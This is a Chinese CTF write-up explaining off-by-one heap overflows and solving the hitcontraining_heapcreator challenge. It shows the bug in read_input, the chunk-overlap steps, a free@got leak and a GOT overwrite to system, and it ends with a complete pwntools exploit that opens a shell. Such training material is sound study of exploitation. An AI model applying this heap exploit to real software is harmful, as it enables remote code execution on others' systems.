 ```yaml
---
title: Off-By-One
tags: [ctf-pwn,exp]
date: 2022-11-27 19:00:00
excerpt: 堆中的 off-by-one 漏洞, hitcon_heapcreator exp
---
```


#### Off-By-One漏洞如何产生

1. 循环多一次

   ```C
   x = malloc(10);
   for(int i=0;i<=10;i++)
   {
       x[i] = getchar();
   }
   ```

   x的下一个chunk第一个字节被溢出了

2. `strlen`和`strcpy`行为不一致

   ```C
   if(strlen(buffer)==100)
   {
       strcpy(chunk,buffer);
   }
   ```

   `strlen`返回值不算结束符'`\0`，而`strcpy`复制时会把结束符在内的101个字符复制过去
   
   

#### hitcon_creator

题目来源

<https://buuoj.cn/challenges#hitcontraining_heapcreator>

##### 1. create

![](/img/off_by_one/1.png)

从上述结构可以推断出heaparray是如下结构

```C
struct heaparray_item{
    int_64   size;
    char * content;
}
struct heaparray_item * heaparray[10];
```



##### 2. edit

```C
if ( *(&heaparray + v1) )
{
    printf("Content of heap : ");
    read_input(*((_QWORD *)*(&heaparray + v1) + 1), *(_QWORD *)*(&heaparray + v1) + 1LL);
    puts("Done !");
}
```

`read_input`读取size+1字节，出现了off_by_one漏洞

可以覆盖下一个chunk的size字段



##### 漏洞利用

1. 申请三个堆块，大小为0x18,0x10,0x10，加上三次size申请的0x10，一共6个chunk

    ![](/img/off_by_one/2.jpg)

2. 修改0号块，写入`/bin/sh`，然后再溢出`0x81`到下一个chunk的size

   ![](/img/off_by_one/3.jpg)

3. 这时delete chunk 1，会合并到前一个chunk（也就是1的size所在chunk）中

    ![](/img/off_by_one/4.jpg)

    观察bins，发现这个chunk被free到fastbin的0x80节点上（0x20上也有一个chunk是因为delete也会将size释放掉）

    ![](/img/off_by_one/5.jpg)

4. 申请一个新的chunk，将0x80这个块申请出来，因此malloc的大小需要为0x70

    同时，在2号的content位置写入`free@got`

    这时调用show(2)会泄露free的地址

    ![](/img/off_by_one/6.jpg)

5. 泄露libc基址找到system地址

6. `edit(2,p64(system_addr))`时，会修改content指针指向的内容，而content指针被`free@got`替换掉了，所以free的got表被修改成了`system@got`上的地址

7. 然后`delete(0)`时，首先要free掉`heaparray[0].content`上的内容，但是由于free被替换成了system，结果就变成了以content指针为参数调用system函数的情况，而`heaparray[0].content`恰好是之前写过的`/bin/sh`，因此执行了`system('/bin/sh')

   

##### 完整exp

> libcsearcher挑版本为2.23的

```python
from pwn import *
from LibcSearcher import *
r = process('./heapcreator')
#r = remote('node4.buuoj.cn',26117)
elf = ELF('./heapcreator')

def add(size,content):
    r.sendlineafter("choice :",'1')
    r.sendlineafter("Heap : ",str(size))
    r.sendlineafter("heap:",content)

def edit(idx,content):
    r.sendlineafter("choice :",'2')
    r.sendlineafter("Index :",str(idx))
    r.sendlineafter("heap : ",content)

def show(idx):
    r.sendlineafter("choice :",'3')
    r.sendlineafter("Index :",str(idx))

def delete(idx):
    r.sendlineafter("choice :",'4')
    r.sendlineafter("Index :",str(idx))

free_got = elf.got['free']

add(0x18,"MMMM")
add(0x10,"MMMM")
add(0x10,"MMMM")
#gdb.attach(r)

edit(0,b'/bin/sh\x00'+p64(0)*2+b'\x81')
#gdb.attach(r)

delete(1)
#gdb.attach(r)

add(0x70,p64(1)*8+p64(0x8)+p64(free_got))
show(2)
#gdb.attach(r)

free_addr = u64(r.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

#libc
libc = LibcSearcher('free',free_addr)
offset = free_addr-libc.dump('free')
system_addr = offset + libc.dump('system')

edit(2,p64(system_addr))
#gdb.attach(r)
delete(0)

r.interactive()
```

